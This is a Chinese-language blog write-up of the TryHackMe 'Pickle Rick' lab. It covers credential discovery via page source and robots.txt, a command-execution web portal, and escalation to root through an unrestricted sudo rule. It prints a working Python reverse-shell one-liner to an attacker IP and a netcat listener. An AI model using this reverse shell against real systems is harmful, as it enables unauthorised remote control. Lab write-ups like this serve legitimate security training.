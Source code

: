 ```yaml
---
categories:
- penetration
date: '2024-08-14 14:08:26+08:00'
description: 日常练习
isCJKLanguage: true
lastmod: '2025-05-07 21:28:57+08:00'
slug: tryhackmeeasypickle-rick-1vlraf
title: Tryhackme-easy-Pickle Rick
toc: true
url: /post/tryhackmeeasypickle-rick-1vlraf.html
---
```

# Tryhackme-easy-Pickle Rick

# 前言

一个简单靶场，kali环境有些小问题，这次是windows下做的

A Rick and Morty CTF. Help turn Rick back into a human!

# 过程

首先给出一个页面

```plain
Listen Morty... I need your help, I've turned myself into a pickle again and this time I can't change back!

I need you to *BURRRP*....Morty, logon to my computer and find the last three secret ingredients to finish my pickle-reverse potion. The only problem is, I have no idea what the *BURRRRRRRRP*, password was! Help Morty, Help!
```

很明显提示说使用burpsuite

通过抓包得到一条提示信息

```plain
Note to self, remember username!
Username: R1ckRul3s
```

先使用扫描存在的端口，发现存在了两个开放端口

```plain
2024/2/23 23:27:09    开始扫描...
10.10.242.108:22
10.10.242.108:80
```

然后来扫一下目录

```plain
login.php
robots.txt
```

在robots.txt下发现存在字符串，当作密码

```plain
Wubbalubbadubdub
```

login.php尝试登录，登陆后成功跳转portal.php

存在一个可能是命令执行的窗口，ls后查看

```plain
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
```

访问Sup3rS3cretPickl3Ingred.txt，得到第一个flag

在clue.txt发现一段话

```plain
Look around the file system for the other ingredient.
```

denied.php禁止访问

开始反弹shell

```plain
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.71.162 ",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

```plain
nc -nlvp 1234
```

​![](https://raw.githubusercontent.com/Wh1teJ0ker/PicGo/main/Pic/network-asset-RbVJ34EyWQNHPaT-20250507212942-z1wnbo1.png)​

成功反弹后进行提权操作

```plain
sudo -l
```

发现当前甚至没有设置基础密码

```plain
Matching Defaults entries for www-data on ip-10-10-242-108.eu-west-1.compute.internal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-242-108.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

```plain
sudo su
```

成功提权

然后查找相应的两个flag

```plain
cat "second ingredients"
```

​![](https://raw.githubusercontent.com/Wh1teJ0ker/PicGo/main/Pic/network-asset-tmTeXNpjWKaqfEy-20250507212942-3m2rzro.png)​

```plain
cat ./3rd.txt
```

​![](https://raw.githubusercontent.com/Wh1teJ0ker/PicGo/main/Pic/network-asset-H7wTqBGDkIljEb8-20250507212943-hhsc68q.png)​

‍
